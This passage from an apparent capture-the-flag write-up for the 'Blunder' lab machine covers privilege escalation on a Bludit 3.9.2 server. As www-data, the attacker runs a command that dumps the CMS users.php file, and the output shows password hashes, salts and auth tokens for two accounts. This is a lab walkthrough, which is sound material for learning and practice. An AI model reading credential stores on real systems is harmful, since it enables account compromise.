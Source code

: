 `user.txt` is in hugo's home folder and shuan maybe be used for pe.

## Privilege Escalation of Machine : from www-data to hugo

Let's see in the database of the app:

```php
$ www-data@blunder:/var/www/bludit-3.9.2$ cat bl-content/databases/users.php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Admin",
        "firstName": "Administrator",
        "lastName": "",
        "role": "admin",
        "password": "bfcc887f62e36ea019e3295aafb8a3885966e265",
        "salt": "5dde2887e7aca",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""
    },
    "fergus": {
        "firstName": "",
        "lastName": "",
        "nickname": "",
        "description": "",
        "role": "author",
        "password": "be5e169cdf51bd4c878ae89a0a89de9cc0c9d8c7",
        "salt": "jqxpjfnv",
        "email": "",
        "registered": "2019-11-27 13:26:44",
        "tokenRemember": "",
        "tokenAuth": "0e8011811356c0c5bd2211cba8c50471",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "codepen": "",
        "instagram": "",
        "github": "",
        "gitlab": "",
        "linkedin": "",
        "mastodon": ""
    }
```
